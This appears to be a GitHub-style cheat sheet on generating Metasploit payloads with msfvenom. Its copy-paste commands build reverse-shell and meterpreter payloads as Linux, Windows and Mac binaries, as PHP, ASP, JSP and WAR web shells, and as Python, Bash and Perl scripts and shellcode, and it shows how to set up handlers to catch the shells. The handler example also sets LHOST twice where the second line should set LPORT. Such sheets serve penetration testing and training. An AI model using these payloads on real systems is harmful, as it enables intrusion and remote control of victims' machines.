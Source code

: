 ## How to Generate a Payload for Metasploit

The most useful and to the beginner underrated abilities of **Metasploit** is the **msfpayload** module. Multiple payloads can be created with this module and it can provide you a shell in almost any situation.

For each of these payloads, you can go into **msfconsole** and select "`exploit/multi/handler`". Run "`set payload`" for the relevant payload used and configure all necessary options (LHOST, LPORT, etc.).

For the examples below its pretty self explanatory but **LHOST** should be filled in with your IP address which must be your **LAN IP** if attacking within the network or **WAN IP** if attacking across the internet along with **LPORT** which must be the port you wish to be connected back on.

* * *

###### 1. LIST AVAILABLE PAYLOADS

```bash
msfvenom -l
```

* * *

###### 2. BINARIES PAYLOADS

**2.1 Linux**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f elf > shell.elf
```

**2.2 Windows**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f exe > shell.exe
```

**2.3 Mac**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f macho > shell.macho
```

* * *

###### 3. WEB PAYLOADS

**3.1 PHP**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -e php/base64 R > shell.php
```

Since the file has been encoded using base64, do not forget to open it using your favorite text editor and add "`<?php`" at the top and "`?>`" at the end.

**3.2 ASP**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f asp > shell.asp
```

**3.3 JSP**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.jsp
```

**3.4 WAR**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f war > shell.war
```

* * *

###### 4. SCRIPTING PAYLOADS

**4.1 Python**

```bash
msfvenom -p cmd/unix/reverse_python LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.py
```

**4.2 Bash**

```bash
msfvenom -p cmd/unix/reverse_bash LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.sh
```

**4.3 Perl**

```bash
msfvenom -p cmd/unix/reverse_perl LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.pl
```

* * *

###### 5. SHELLCODE PAYLOADS

For all shellcode see "`msfvenom --help-formats`" for information as to valid parameters. Msfvenom will output code that can be cut and pasted in this language for your exploits.

**5.1 Linux Based Shellcode**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

**5.2 Windows Based Shellcode**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

**5.3 Mac Based Shellcode**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

* * *

###### 6. CREATE HANDLERS

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```bash
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set LHOST "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD "/path/to/the/payload"
msf exploit(multi/handler) > set ExitOnSession false
msf exploit(multi/handler) > exploit -j -z
```

* * *

###### 7. LOAD CUSTOM PAYLOADS

Metasploit allows you to generate Payload and use it during an attack. To use this function, simply generate your Payload before to run your attack and once you are done, use "`payload/generic/custom`" to specify the Payload to use.

```bash
msfconsole
msf > use payload/generic/custom
msf payload(custom) > show options
msf payload(custom) > set PAYLOADFILE "/path/to/the/payload"
msf payload(custom) > set PAYLOADSTR "the_payload_string_to_use"
```
